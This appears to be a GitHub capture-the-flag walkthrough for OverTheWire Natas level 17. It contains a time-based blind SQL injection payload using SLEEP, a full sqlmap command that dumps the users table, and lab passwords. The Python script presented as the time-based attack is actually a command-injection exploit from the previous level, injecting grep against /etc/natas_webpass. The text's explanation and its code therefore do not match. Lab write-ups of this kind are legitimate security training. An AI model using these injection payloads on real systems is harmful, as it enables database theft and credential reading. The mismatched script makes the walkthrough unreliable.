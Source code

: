 # OverTheWire Wargames

## Natas Level 16 --> Level 17

**Username:** natas17

**Password:** 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw

**URL:**      http://natas17.natas.labs.overthewire.org

 
### Solution
* Click view sourcecode there you can see that there isn't any output we got back from the server, so we need to think out something else to determine the response of the select statment
* We can use 'SLEEP(n)' to determine from the response time whether entered character exists in the password or not, using this query (Time-based attacks):
```
 SELECT * from users where username="natas18" AND password LIKE BINARY '{char}%' AND SLEEP(5) --
```
* Notice that the condition after 'AND' execute only if the previous condition return TRUE, so if the password condition return true the response should be delayed by 5sec
* We can implements this aproach in two ways:
##### Python Script
* To perform brute-force to retrieve the password using Time-based attack use this python script:
```py
import requests
import string

chars = string.ascii_uppercase + string.ascii_lowercase + '0123456789'
base_url = 'http://natas16.natas.labs.overthewire.org/?needle='
password = ''

for i in range(32):
    cnt = 0
    while True:
        payload = password + chars[cnt]
        r = requests.get(base_url+f'Africans$(grep ^{payload} /etc/natas_webpass/natas17)', auth=('natas16', 'WaIHEacj63wnNIBROHeqi3p9t0m5nhmh'))
        cnt += 1

        if not 'Africans' in r.text:
            password = payload
            print(password)
            break
```

##### Sqlmap
* Use this command to retreive the password using sqlmap *(Database name and columns name can be found in the sourcecode)*
```sh
  sqlmap -u "http://natas17.natas.labs.overthewire.org/index.php" --auth-type=Basic --auth-cred=natas17:8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw --data="username=natas18" --level=3 --risk=1 --technique=T --threads=4 --dbms=MySQL -D natas17 -T users -C username,password --dump --batch
```
* Here is an explaination of each flag:
> -u              URL
> 
> --auth-type     HTTP authentication
> 
> --auth-cred     HTTP authentication credentials (name:password)
> 
> --data          Data string to be sent
> 
> --level         Number of checks to be performed.  (Range is 1 to 5. Default is 1.)
> 
> --risk          Types of payloads to use. Higher numbers could cause problems for the server. (Range is 1 to 3.  Default is 1.)
> 
> --technique     T is for Time-based attacks
> 
> --threads       Max number of concurrent HTTP(s) requests
> 
> --dbms          DataBase Management System 
> 
> -D              Database name 
>        
> -T              Table name
> 
> -C              Column name(s)
> 
> --dump          Dump DBMS database table entries
> 
> --batch         Never ask for user input, use the default behaviour


* You got the password!!

### Natas18 Password
> xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP
